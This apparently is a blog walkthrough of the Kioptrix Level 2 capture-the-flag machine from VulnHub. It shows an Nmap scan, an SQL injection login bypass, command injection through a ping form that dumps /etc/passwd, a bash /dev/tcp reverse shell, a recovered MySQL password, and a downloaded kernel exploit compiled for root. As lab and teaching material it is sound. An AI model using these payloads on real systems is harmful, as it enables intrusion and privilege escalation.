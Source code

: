```yaml
---
layout: post
title: Kioptrix Level 2 CTF Walkthrough
date: 2017-07-30
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Service Discovery & Authentication Bypass
An Nmap scan [`nmap -sS -sV -T4 -Pn -vv 192.168.22.130`] revealed a number of different services running on the machine and fingerprinted the machine as running CentOS:

```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      syn-ack ttl 64 CUPS 1.1
3306/tcp open  mysql    syn-ack ttl 64 MySQL (unauthorized)
```

Navigating to the default page of the web server presented me with a login panel, which was not sanitising user input. I was able to bypass the login page by using `admin` as the username and `'or'a'='a` as the password.

## Exploiting The Web Application
Once past the login screen, the web server presented me with a form which allowed me to ping other machines. Passing a valid IP address to this form resulted in output that looks like the standard output of the `ping` command:

```http
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2017 12:36:41 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 430
Connection: close
Content-Type: text/html; charset=UTF-8

192.168.22.129<pre>PING 192.168.22.129 (192.168.22.129) 56(84) bytes of data.
64 bytes from 192.168.22.129: icmp_seq=0 ttl=64 time=1.01 ms
64 bytes from 192.168.22.129: icmp_seq=1 ttl=64 time=0.274 ms
64 bytes from 192.168.22.129: icmp_seq=2 ttl=64 time=0.261 ms

--- 192.168.22.129 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.261/0.517/1.018/0.354 ms, pipe 2
</pre>
```

As the input was seemingly being passed directly to a system command, I tweaked the POST request to `pingit.php` in Burp so that the `ip` field had a value of `192.168.22.129; cat /etc/passwd` and as expected, the response from the server contained the contents of `/etc/passwd`; meaning it was vulnerable to command injection:

```http
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2017 12:41:01 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 2220
Connection: close
Content-Type: text/html; charset=UTF-8

192.168.22.129; cat /etc/passwd<pre>PING 192.168.22.129 (192.168.22.129) 56(84) bytes of data.
64 bytes from 192.168.22.129: icmp_seq=0 ttl=64 time=0.964 ms
64 bytes from 192.168.22.129: icmp_seq=1 ttl=64 time=0.230 ms
64 bytes from 192.168.22.129: icmp_seq=2 ttl=64 time=0.215 ms

--- 192.168.22.129 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.215/0.469/0.964/0.350 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
</pre>
```

With this vulnerability confirmed, I started a listener on my local machine using `ncat -v -n -l -p 5555` and altered the POST request again to establish a reverse TCP shell using the command `bash -i >& /dev/tcp/192.168.22.129/5555 0>&1` which established a shell running as `apache` in `/var/www/html`:

```shell_session
root@kali:~# ncat -v -n -l -p 5555
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 192.168.22.130.
Ncat: Connection from 192.168.22.130:32771.
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ pwd
/var/www/html
bash-3.00$
```

## Privilege Escalation
Looking at the contents of `index.php` revealed the password for the MySQL user `john` in the call to `mysql_connect`: `mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());`

As this user also exists in `/etc/passwd`, I attempted to authenticate as `john` to see if there were any sudo rights which may help escalate further; but the passwords appeared to be different:

```shell_session
bash-3.00$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.00$ su john
su john
Password: hiroshima

su: incorrect password
bash-3.00$
```

Next, I found a kernel exploit (https://www.exploit-db.com/exploits/9545/) which affects a wide range of versions, including the kernel the machine is using.

I started a local web server to transfer the exploit (`python -m SimpleHTTPServer 80`) and then proceeded to download it on the target, compile it, and execute it to get a root shell:

```shell_session
bash-3.00$ cd /dev/shm
bash-3.00$ wget 192.168.22.129/ssp.c
--10:03:22--  http://192.168.22.129/ssp.c
           => `ssp.c'
Connecting to 192.168.22.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9,409 (9.2K) [text/plain]

    0K .........                                             100%  897.31 MB/s

10:03:22 (897.31 MB/s) - `ssp.c' saved [9409/9409]

bash-3.00$ gcc ssp.c -o ssp
bash-3.00$ ./ssp
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00#
```
